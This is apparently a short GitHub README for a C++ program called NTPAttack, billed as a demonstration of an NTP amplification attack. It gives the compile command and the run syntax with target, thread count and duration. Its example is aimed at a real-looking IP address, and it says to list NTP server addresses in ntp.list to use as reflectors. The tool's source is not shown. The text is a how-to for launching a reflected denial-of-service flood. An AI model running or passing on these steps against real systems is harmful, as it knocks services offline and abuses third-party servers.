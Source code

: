 # NTP-Amplification-Attack-demonstration-C-
NTP Amplification Attack demonstration C++

NTP Amplification attack Demonstration using C++
Compiling.
===
    gcc NTPAttack.cpp -o NTPAttack -lstdc++ -lpthread
Running NTPAttack.
===
	sudo ./NTPAttack [target] [threads] [time]

	example: $ sudo ./NTPAttack 132.163.97.1 3 10
ntp.list :
===
Add some ntp server ip addresses in the ntp.list file
